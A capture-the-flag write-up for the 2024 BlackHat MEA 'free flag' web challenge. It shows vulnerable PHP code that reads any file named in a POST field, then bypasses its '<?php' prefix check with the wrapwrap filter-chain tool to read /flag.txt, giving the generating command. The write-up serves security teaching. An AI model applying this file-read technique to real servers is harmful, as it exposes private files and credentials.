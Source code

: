 ```yaml
---
title: 2024 BlackHat MEA CTF Qualification - free flag
date: 2024-09-02 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2024_BlackHat MEA CTF
  - Web Exploitation
  - Local File Inclusion
---
```


## Overview

* 110 points
* easy

## Description

> Free Free

### Attached

[freeflag-player.zip](attached/freeflag-player.zip)

This is `index.php` file

```php
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Free Flag</title>
</head>
<body>
    
<?php


function isRateLimited($limitTime = 1) {
    $ipAddress=$_SERVER['REMOTE_ADDR'];
    $filename = sys_get_temp_dir() . "/rate_limit_" . md5($ipAddress);
    $lastRequestTime = @file_get_contents($filename);
    
    if ($lastRequestTime !== false && (time() - $lastRequestTime) < $limitTime) {
        return true;
    }

    file_put_contents($filename, time());
    return false;
}


    if(isset($_POST['file']))
    {
        if(isRateLimited())
        {
            die("Limited 1 req per second");
        }
        $file = $_POST['file'];
        if(substr(file_get_contents($file),0,5) !== "<?php" && substr(file_get_contents($file),0,5) !== "<html") # i will let you only read my source haha
        {
            die("catched");
        }
        else
        {
            echo file_get_contents($file);
        }
    }

?>
</body>
</html>
```

## Analyzation

Flag is in `/flag.txt`, so we must find way to read it.

Check this block of code

```php
$file = $_POST['file'];
if(substr(file_get_contents($file),0,5) !== "<?php" && substr(file_get_contents($file),0,5) !== "<html") # i will let you only read my source haha
{
    die("catched");
}
else
{
    echo file_get_contents($file);
}
```

So if we can pass value `/flag.txt` into `$file`, we can read flag.

But `$file` must start with `<?php` or `<html` in order to pass the filter. Hmmm... What if we can wrap `/flag.txt` with `<?php`?

## Solution

[wrapwrap](https://www.ambionics.io/blog/wrapwrap-php-filters-suffix) can do it for us. Source code can be found [here](https://github.com/ambionics/wrapwrap).

Use this command to generate file

```py
python3 wrapwrap.py /flag.txt "<?php " '' 100
```

and then upload it. The flag is yours.

### Guide to install wrapwrap

- First, download [wrapwrap.py](https://github.com/ambionics/wrapwrap/blob/9a182f842797426280d907e11f6201bc9e8e133a/wrapwrap.py).
- Second, clone [ten module](https://github.com/cfreal/ten) as mentioned in `wrapwrap.py`.
- Third, use `pip3` to install the required modules for `ten`.
```
pip3 install rich colorama bs4 requests_toolbelt
```
Now you can use `wrapwrap`. Generated file for this challenge is [chain.txt](attached/chain.txt).